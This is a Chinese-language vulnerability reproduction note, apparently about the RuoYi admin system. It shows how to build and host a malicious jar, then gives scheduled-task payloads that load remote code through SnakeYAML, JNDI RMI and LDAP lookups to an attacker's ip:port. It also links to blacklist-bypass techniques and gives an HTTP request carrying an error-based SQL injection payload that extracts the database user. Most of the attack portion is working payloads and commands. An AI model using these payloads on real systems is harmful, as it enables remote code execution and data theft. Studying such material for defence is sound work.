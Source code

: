 ```shell
# 打包为jar包
javac src/artsploit/AwesomeScriptEngineFactory.java
jar -cvf yaml-payload.jar -C src/ .

# 开启http服务
python -m http.server 1234
```



#### 创建并开启定时任务

![image-20230825143833628](../../../images/image-20230825143833628.png)

```java
org.yaml.snakeyaml.Yaml.load('!!javax.script.ScriptEngineManager [!!java.net.URLClassLoader [[!!java.net.URL ["http://ip:port/yaml-payload.jar"]]]]')

org.springframework.jndi.JndiLocatorDelegate.lookup('rmi://ip:port/Evil')

javax.naming.InitialContext.lookup('ldap://ip:port/#Evil')
```



#### 结果

![image-20230621210823778](../../../images/image-20230621210823778.png)

![image-20230621210844522](../../../images/image-20230621210844522.png)



### 绕过姿势

[某依rce黑名单多种bypass方法分析 - 先知社区](https://xz.aliyun.com/t/10957#toc-0)

[定时任务功能点绕过黑白名单执行任意sql语句 - 先知社区](https://xz.aliyun.com/t/11336#toc-0)





## 后台Sql报错注入

### 复现

分析https://tttang.com/archive/1712/#toc_0x2-ruoyi-461-sql

```http
POST /system/role/list HTTP/1.1

params[dataScope]=and extractvalue(1,concat(0x7e,(select user()),0x7e))
```

![image-20230621195248659](../../../images/image-20230621195248659.png)
